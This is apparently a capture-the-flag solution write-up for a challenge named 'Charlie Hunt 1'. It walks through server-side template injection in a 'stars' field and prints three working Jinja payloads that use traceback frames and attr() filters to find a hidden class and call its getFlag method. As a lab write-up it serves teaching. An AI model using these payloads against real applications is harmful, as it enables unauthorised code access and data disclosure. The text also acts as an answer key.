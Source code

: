 # Charlie Hunt 1 Solution

Player need to first find the v1 endpoint. From there they will be able to insert ssti payloads in the 'stars' field. When they input anything that is not a number, an error pops up which shows that error class name is REDACTED<br>

The error message mentions that they need to submit info to the developer and the **v is unknown.
They need to use the **v field and use this second payload field to get the class object and from there the flag method which will print the flag.

To find the Class object name:

```
{{e|attr('__traceback__')|attr('tb_frame')|attr('f_locals')}}
```

You find the object name as `RateProcOb`

To find the methods in the class:

```
{{((e|attr('__traceback__')|attr('tb_frame')|attr('f_locals'))['RateProcOb']|attr('__class__')|attr('__mro__'))[0]|attr('__dict__')|attr('keys')()}}
```

You find all the methods in the class out of which getFlag stands out<br>
Running the method using the payload below shows the flag

```
{{(e|attr('__traceback__')|attr('tb_frame')|attr('f_locals'))['RateProcOb']|attr('getFlag')()}}
```
